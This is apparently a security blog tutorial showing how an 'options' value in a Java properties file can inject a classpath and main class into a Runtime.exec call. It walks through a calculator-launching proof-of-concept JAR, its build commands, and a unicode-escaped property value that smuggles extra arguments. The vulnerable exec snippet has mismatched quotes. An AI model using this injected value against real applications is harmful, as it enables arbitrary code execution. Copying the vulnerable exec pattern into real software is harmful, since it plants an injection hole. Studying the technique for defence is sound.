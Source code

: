 ```yaml
---
layout: single
title: Classpath Injection in Runtime.exec via Java Properties
date: 2023-12-11
classes: wide
tags:
  - java properties
  - command injection
---
```


> In Java, Runtime.exec is often used to invoke a new process, but it does not invoke a new command shell, which means that chaining or piping multiple commands together does not usually work. Command injection is still possible if the process spawned with Runtime.exec is a command shell like command.com, cmd.exe, or /bin/sh.

But consider the scenario where the Java application itself is the spawned process. The following example illustrates this situation.

```
Runtime runtime = Runtime.getRuntime();
Properties properties = new Properties();
FileInputStream fileInputStream = new FileInputStream("app.properties");

properties.load(fileInputStream);

String options = properties.getProperty("options", "");
String command = String.format("javaw  %s -cp ".;./dependencies/*\" com.example.main.Example", new Object[] { options });

Process process = runtime.exec(command);
```

To exploit this code, it's necessary to craft your own JAR file and use it to insert the classpath as a parameter into the Java process.

Store the following example into a file named `Calc.java`, ensuring to include the package declaration at the start of the file.

```
package command.injection;

import java.io.IOException;

public class Calc {

    public static void main(String[] args) throws IOException {
        Runtime.getRuntime().exec("calc");
    }
}
```

Compile the source code using the -d . option, which instructs the compiler to generate the specified directory structure.

```
javac -d . Calc.java
```

When creating a .jar file, you should use the `cvfeP` option set to guide the packaging process.

```
jar cvfeP calc.jar command.injection.Calc -C . command/injection/
```

This ensures the preservation of the package structure (P), sets the entry point for meaningful manifest information (e), names the file (f), creates an archive (c), and enables verbose output (v). The key options to focus on are P for maintaining the package structure and e for specifying the entry point. Then, append the command with the jar's name (test.jar) and its entry point. Conclude by using -C . <packagename>/ to collect class files from the designated folder while maintaining the folder's structure.

Open the `calc.jar` file in a zip program to ensure that it has the following directory structure:

```
command/
├─ injection/
│  ├─ Calc.class
META-INF/
├─ MANIFEST.MF
```

The `MANIFEST.MF` should contain the following:

```
Manifest-Version: 1.0
Created-By: <JDK Version> (Oracle Corporation)
Main-Class: command.injection.Calc
```

When manually editing your manifest file, it's important to retain the newline at the end; otherwise, Java will not recognize the manifest correctly.

Place `calc.jar` into the `/dependencies` directory of the target application.

Add the following property to the configuration file (`application.properties`) of the application:

```
options=-cp\u0020\u0022C:/PATH/TO/JAR/*\u0022\u0020command.injection.Calc\u0020\u0026\u003A\u003A\u0020
```

Run the target application and observe that instead of the expected program, the calculator app will launch.

Below is the value that was fed into the exec function.

```
javaw -cp "C:/PATH/TO/JAR/*" command.injection.Calc &:: -cp ".;./dependencies/*\" com.example.main.Example
```

## References

- [Command injection in Java](https://wiki.owasp.org/index.php/Command_injection_in_Java)
